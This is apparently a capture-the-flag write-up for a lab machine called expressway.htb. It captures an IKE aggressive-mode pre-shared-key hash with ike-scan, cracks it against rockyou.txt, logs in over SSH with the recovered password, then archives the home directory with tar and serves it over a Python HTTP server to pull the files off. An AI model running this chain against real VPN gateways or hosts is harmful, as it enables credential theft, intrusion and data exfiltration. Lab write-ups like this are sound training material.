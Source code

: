 # Enumeration

## Port 500 - ISAKMP
```bash
sudo ike-scan -A -P $IP
```
```txt
Starting ike-scan 1.9.5 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned HDR=(CKY-R=8f167fd4d3878c60) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

IKE PSK parameters (g_xr:g_xi:cky_r:cky_i:sai_b:idir_b:ni_b:nr_b:hash_r):
----------Copy in file named psk.txt-------------------
9e170e6256b5cf9282abadae952c1b3be93ee429029bf187c959900cb130c71d154ff050bea4a79f3bdb73fa4c671e536d1bc99c7e85207a6a97cfaab41f9f7cbb3d5ffac0d2540d160f0e420d4138b60e73bcc3229434f42343dd588704c25b8d967b9f03f75fce9a3c29a9b5a997fe437280229ac49149b10155fec9e5ab75:51f31264a5b657401e7eb367cb9f6b3767196661f8f9ff754de6a4a5cc1fe5fdc516ac6c163d12ec0641f128b3deed89a819da20a66dfa77573c402c9cde9e0c47813a37e14fe4ec2a8bc0de11fcb65f811dbb13efc14b4194d76beb99197593d35097e381dab982da8064c2ec1d4c45e671252828034936686ac1eeb6409ffe:8f167fd4d3878c60:7ff8ce92d36edafa:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:aea0752083d48673dd24dddf0650db270ac8265b:a40664b1a121db4e097133be79f6cbba97febebf595a283ff7d3ebe17f4a768b:5d9000940599888771d831b22761d46fddceb6a4
-------------------------------------------------------
Ending ike-scan 1.9.5: 1 hosts scanned in 0.500 seconds (2.00 hosts/sec).  1 returned handshake; 0 returned notify
```
- add `expressway.htb` to `/etc/hosts`
```bash
echo "10.10.11.87 expressway.htb" | sudo tee -a /etc/hosts
```
- crack code  for `Value=ike@expressway.htb`
```bash
 sudo psk-crack psk.txt -d /usr/share/wordlists/rockyou.txt
```
- Output
```txt 
Starting psk-crack [ike-scan 1.9.5] (http://www.nta-monitor.com/tools/ike-scan/)
Running in dictionary cracking mode
key "freakingrockstarontheroad" matches SHA1 hash 5d9000940599888771d831b22761d46fddceb6a4
Ending psk-crack: 8045040 iterations in 10.732 seconds (749651.55 iterations/sec)
```
- creaking give `freakingrockstarontheroad`
- password for `ike@expressway.htb` 
```sh
sshpass -p "freakingrockstarontheroad" ssh ike@expressway.htb -p 22
```
---
# Exploitation
## SSH -Port 22
```sh
sshpass -p "freakingrockstarontheroad" ssh ike@expressway.htb -p 22
```
- located the user flag
- tar the home directory and open python http server 
```bash
tar -cvpJf ike_home_$(date +%F).tar.xz .
python3 -m http.server 8080
```